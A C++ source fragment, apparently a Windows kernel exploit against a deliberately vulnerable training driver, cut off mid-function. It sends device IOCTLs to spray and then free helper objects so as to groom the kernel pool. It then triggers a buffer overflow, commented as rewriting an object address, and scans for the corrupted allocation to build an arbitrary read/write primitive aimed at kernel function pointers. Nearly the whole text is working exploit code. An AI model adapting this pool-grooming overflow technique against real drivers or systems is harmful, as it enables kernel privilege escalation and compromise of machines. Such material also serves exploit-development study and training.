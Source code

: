 ```cpp
		DeviceIoControl(hFile, 0x222063, &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &bytes, nullptr);

		DeviceIoControl(hFile, 0x222067, &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &bytes, nullptr);
	}

	for (unsigned int i = 0; i < 5000; i++) {

		ArwHelpObjIo.Name = &addr;

		DeviceIoControl(hFile, 0x222063, &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &bytes, nullptr);

		DeviceIoControl(hFile, 0x222067, &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &bytes, nullptr);

		HelperArray[i] = ArwHelpObjIo;

	}

	for (unsigned int i = 0; i < 5000; i++) {

		if (i % 2 == 0) {
			
			ArwHelpObjIo.Name = &addr;

			DeviceIoControl(hFile, 0x22206f, &HelperArray[i], sizeof(ARW_HELPER_OBJECT_IO), &HelperArray[i], sizeof(ARW_HELPER_OBJECT_IO), &bytes, nullptr);
		}
	}

	unsigned long long pBuffer[5] = { 0 };

	pBuffer[0] = 0xbabababababababa;
	pBuffer[1] = 0xbabababababababa;
	// pBuffer[2] = 0x6b6361480202b200;
	pBuffer[2] = 0x6b63614802020000;
	pBuffer[3] = 0xbabababababababa;
	pBuffer[4] = (unsigned long long)MyArwHelpObjIo.HelperObjectAddress;

	// using buffer overflow to rewrite the address;
	DeviceIoControl(hFile, 0x22204b, &pBuffer, 0x28, &pBuffer, 0x28, &bytes, nullptr);

	unsigned long long tester = 0xdeadbeefdeadbeef;
	unsigned int index = 0;

	for (unsigned int i = 0; i < 5000; i++) {

		HelperArray[i].Name = &tester;

		DeviceIoControl(hFile, 0x22206b, &HelperArray[i], sizeof(HelperArray[i]), &HelperArray[i], sizeof(HelperArray[i]), &bytes, nullptr);

		if (tester != 0xdeadbeefdeadbeef) {

			printf("\n[%d] Affected allocation by the overflow -> 0x%p\n", i, HelperArray[i].HelperObjectAddress);

			UINT64 pExAllocatePoolWithTag = addrKrnl + 0x2008;

			HelperArray[i].Name = &pExAllocatePoolWithTag;
```